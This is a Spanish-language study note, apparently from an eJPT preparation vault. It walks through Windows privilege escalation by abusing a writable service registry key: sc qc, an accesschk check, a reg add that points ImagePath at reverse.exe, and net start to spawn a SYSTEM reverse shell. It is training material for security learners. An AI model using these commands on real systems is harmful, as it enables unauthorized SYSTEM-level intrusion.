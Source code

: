 - Consulta el "regsvc" servicio y noque se ejecuta con privilegios SYSTEM (SERVICE_START_NAME).

```
sc qc regsvc
```

- Usando accesschk.exe, tenga en cuenta que la entrada del registro para el servicio regsvc es escribible por la "NT Grupo AUTHORITY\INTERACTIVE" (esencialmente todos los usuarios registrados):

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

- Sobrescribe la clave del registro ImagePath para apuntar al ejecutable reverse.exe que creaste:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

- Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios SYSTEM:

```
net start regsvc
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Insecure Service Permissions]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Insecure Service Executables]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Unquoted Service Path]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]